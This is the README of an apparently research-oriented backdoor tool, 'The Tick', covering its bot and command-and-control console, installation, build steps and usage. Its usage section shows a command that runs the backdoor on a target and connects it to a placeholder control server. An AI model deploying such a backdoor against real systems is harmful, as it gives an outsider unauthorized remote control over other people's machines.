


# The Tick

A simple backdoor for servers and embedded systems.

- [The Tick](#the-tick)
  * [Compiling](#compiling)
  * [Installing](#installing)
  * [Usage](#usage)
  * [Media](#media)



## Installing

As with any backdoor type tool, there are two components - the bot that is run on the machine you want to control, and a command and control console where the backdoor connects to.

### The bot (`ticksvc`)

The bot is called `ticksvc` and you may find pre-built binaries for many platforms in the Releases section. However, if you want to run ticksvc on a platform that we currently don't have a pre-built binary for, you'll need to compile it yourself (see the section below). Currently supported platforms are:

* Android (native binaries for ARM, Intel and MIPS)
* Linux (distribution agnostic portable binaries for ARM, Intel and MIPS)
* Windows (32 and 64 bit Intel)

Specific install instructions for the bot will depend heavily on the target platform, and are therefore not documented here.

### The console (`tick.py`)

The command and control console is written in Python 2.x and requires no installation, but may have unresolved dependencies. Run the following command to ensure all dependencies are properly installed (note this does not need sudo):

```
pip install --upgrade -r requirements.txt
```

Usually you'll want to run this console on a server, where you have a public IP address that the bots can connect to. But you can still run this from your desktop if you wish. In most Linux desktop environments the following `Tick.desktop` file will create an icon you can double click to run the console:

```
[Desktop Entry]
Encoding=UTF-8
Value=1.0
Type=Application
Name=The Tick
GenericName=The Tick
Comment=An embedded Linux backdoor
Icon=/opt/thetick/doc/logo.png
Exec=/opt/thetick/tick.py
Terminal=true
Path=/opt/thetick/
```

The exact location for the `Tick.desktop` file may vary across Linux distributions but generally placing it in the desktop should work. Make sure to edit the path to wherever you downloaded The Tick (`/opt/thetick` in the above example).

## Usage

To run the backdoor binary on the target platform, set the control server hostname and port as command line options. For example:

```
./ticksvc control.example-domain.com 5555 &
```

At the control server, you may want to run the console inside a GNU screen instance or similar:

```
sudo apt-get install screen
screen -S thetick ./thetick.py
```

That way you can detach from the console by pressing `Control+A` followed by `D`. You can return to the console later like this:

```
screen -r thetick
```

The console will let you know when a new bot connects to it. Use the `bots` command to show the currently connected bots, and the `use` command will select a bot to work with. The `help` command shows the user manual.

Here are a few screenshots illustrating what the console is capable of:




## Compiling

The Tick has no dependencies beyond the libc. To compile for debugging purposes, just run the makefile:

```
cd src
make clean
make
```

Once the `make` command has run to completion, the compiled binary can be found at the `bin` folder. By default this binary will have logging enabled and debug symbols.

To cross-compile for multiple platforms, you will need Docker installed and configured. Then, just run the `build.sh` script to build everything in one go:

```
docker run hello-world
./build.sh
```

You can optionally tell the build script to only build for certain platforms. For example, if you want to only build for Android and Windows, you can do this:

```
./build.sh android windows
```

You can also filter by architecture:

```
./build.sh arm64 x86_64
```

Or both:

```
./build.sh x86-windows arm64-android
```

Currently all builds are generic portable binaries, but the plan is to include build specific to certain devices, where some tweaks and patches may need to be applied. Contributions in this area are more than welcome! Let us know if you compiled the bot on some rare embedded device and we can merge that into the main build script.

## Media

An early version of The Tick has been referenced in the following 44Con presentation by Daniel Romero and Mario Rivas:

[](http://www.youtube.com/watch?v=plu7U0Sq9HQ "Office Equipment: The Front Door To Persistence On Enterprise Networks - D. Romero and M. Rivas")
